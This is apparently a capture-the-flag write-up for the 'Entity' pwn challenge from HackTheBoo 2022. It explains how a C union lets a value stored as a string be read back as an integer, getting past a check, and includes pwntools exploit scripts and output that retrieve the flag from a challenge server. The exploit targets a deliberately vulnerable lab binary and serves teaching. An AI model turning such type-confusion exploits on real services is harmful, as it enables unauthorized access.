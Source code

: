 +++
title = "CTF Writeup - Entity"
date = 2019-11-27
slug = "entity"
authors = ["Inryatt"]
+++


Author: Inryatt

Difficulty: easy

Category: pwn

CTF: HackTheBoo 2022

This writeup has also been published on this cool blog -> [Pengrey's Blog]("www.pengrey.com")

----

On this challenge we are provided with both the executable and the source code file for the challenge - this is a white box challenge. Therefore, no reversing of the binary is needed, as we can understand how it works just from the source code itself.

### Problem analysis

To start off, this is the data structure where the program stores the data we give it, which will be referenced further ahead:

```c
static union {
    unsigned long long integer;
    char string[8];
} DataStore;
```

When connecting to the target machine, this is what we’re presented with:

```c
Something strange is coming out of the TV..

(T)ry to turn it off
(R)un
(C)ry

>>
```

If T or R are selected, this is shown:

```c
This does not seem to work.. (L)ie down or (S)cream
```

(Any input that’s not one of these options will result in the program exiting immediately after a small message.)

Looking at the source code we can see clearly what each option does:

- T → Store a value in DataStore;  In the second option, (L) will store a numeric value and (S) a string.
- R → Will read the value previously stored in DataStore; If (L) is selected it will (try to) read the integer, and if (S) is selected it will attempt to read the string.
- C → If the value stored in the DataStore as the ‘integer’ is `13371337`, it gives the flag. Otherwise, does nothing.

It is interesting to note that the program will not allow us to store directly ‘13371337’ as the integer — getting the flag is not that trivial. Also, very small numbers (Under -**18446744073709551615,** to be precise) will underflow;

<aside>
❓ The variable that stores an integer (T→L options) is an unsigned long long, which has a maximum value of 18446744073709551615;
If we attempt to store a value of -18446744073709551616+x then read it (options R→L), we will obtain a value of x, instead of the large negative number.

</aside>

However, using this method to get the variable to store 13371337 (By trying to store `-18446744073696180278` ) does not work, as it is caught by the program. Nonetheless, it is an interesting quirk.

### The Solution

The big factor that enables this challenge here is the data structure presented above - the DataStore. It is declared as `static union`, which is explained on [this site](https://en.cppreference.com/w/cpp/language/union) as such:

> A union is a special class type that can hold only one of its non-static [data members](https://en.cppreference.com/w/cpp/language/data_members) at a time.
> 

The key here is that the structure holds only one of the elements (Both the elements in it are non-static) at a time. As such, we can get *very* interesting results when storing an integer (Options T→L) and then reading it as if it were a string (R→S options), and vice-versa.

Particularly, by storing a string and then reading it as a numeric value we may even be able to go around the ‘13371337’ restriction and get the flag! For this, some analysis was required. Below are the integer obtained from storing a string and reading as if it were an integer.

| String | Integer |
| --- | --- |
| ‘0’ | 2608 |
| ‘1’ | 2609 |
| ‘2’ | 2610 |
| … | … |
| ‘00’ | 667696 |
| ‘01’ | 667952 |
| ‘02’ | 668208 |
| ‘10’ | 667697 |
|  |  |

| String | Integer |
| --- | --- |
| ‘a’ | 2657 |
| ‘b’ | 2658 |
| ‘c’ | 2659 |
| … | … |
| ‘aa’ | 680289 |
| ‘ab’ | 680545 |
| ‘bb’ | 680546 |
| ‘aaa’ | 174154081 |
| ‘aab’ | 174219617 |

As we can see, the numbers returned are not random, there is a clear pattern and sequence, even if I were not able to discover it. Characters that are sequential get sequential corresponding integers.

Therefore, these cannot be memory addresses or some similar value that’s being fetched, as it wouldn’t be this predictable. 

Now, here we could attempt to bruteforce this until we find the string that would yield us the ‘13371337’ integer via pwntools, but while setting this up, a peculiarity was found.

```bash
└─$ python3 smp.py
[+] Starting local process './entity': pid 45378
b'\nSomething strange is coming out of the TV..\n\n(T)ry to turn it off\n(R)un\n(C)ry\n\n>> '
b'\nThis does not seem to work.. (L)ie down or (S)cream\n\n>> '
b'\nMaybe try a ritual?\n\n>> '
b'\n(T)ry to turn it off\n(R)un\n(C)ry\n\n>> '
b'\nThis does not seem to work.. (L)ie down or (S)cream\n\n>> '
b'\nAnything else to try?\n\n>> '
b'123\n\n(T)ry to turn it off\n(R)un\n(C)ry\n\n>> '
[*] Stopped process './entity' (pid 45378)
```

```python
from pwn import *
conn = process("./entity")
# Store a string in the DataStore
print(conn.recvuntil(b'>> '))
conn.send(b'T\r\n')
print(conn.recvuntil(b'>> '))
conn.send(b'S\r\n')
print(conn.recvuntil(b'>> '))
# send bytes here
conn.send(p64(123))
conn.send(b'\r\n')
# Read the previously sent string as if it were an integer
print(conn.recvuntil(b'>> '))
conn.send(b'R\r\n')
print(conn.recvuntil(b'>> '))
conn.send(b'L\r\n')
print(conn.recvuntil(b'>> '))
print(conn.recvuntil(b'>> '))
```

If instead of a string (Ex: “123” or b”123”, which is what is sent by typing on the terminal) instead we send a 64-bits integer (Since an unsigned long long, which is what the DataStore uses, is (at least) a 64-bits integer), the output when reading the integer from the DataStore is exactly what we stored as a “string”. Thus, we can get our flag by just sending 13371337.

```bash
└─$ python3 pwnthis.py
[+] Opening connection to 142.93.44.104 on port 32124: Done
b'\nSomething strange is coming out of the TV..\n\n(T)ry to turn it off\n(R)un\n(C)ry\n\n>> '
b'\nThis does not seem to work.. (L)ie down or (S)cream\n\n>> '
b'\nMaybe try a ritual?\n\n>> '
b'\n(T)ry to turn it off\n(R)un\n(C)ry\n\n>> '
b'\nThis does not seem to work.. (L)ie down or (S)cream\n\n>> '
b'\nAnything else to try?\n\n>> '
b'13371337\n\n(T)ry to turn it off\n(R)un\n(C)ry\n\n>> '
b'HTB{f1ght_34ch_3nt1ty_45_4_un10n}'
[*] Closed connection to 142.93.44.104 port 32124
```

```bash
from pwn import *
#conn = process("./entity")
conn = remote("142.93.44.104", 32124)
# Store a string in the DataStore
print(conn.recvuntil(b'>> '))
conn.send(b'T\r\n')
print(conn.recvuntil(b'>> '))
conn.send(b'S\r\n')
print(conn.recvuntil(b'>> '))
# send bytes here
conn.send(p64(13371337))
conn.send(b'\r\n')
print(conn.recvuntil(b'>> '))
conn.send(b'R\r\n')
print(conn.recvuntil(b'>> '))
conn.send(b'L\r\n')
print(conn.recvuntil(b'>> '))
print(conn.recvuntil(b'>> '))
conn.send(b'C\r\n')
print(conn.recvuntil(b'}'))
```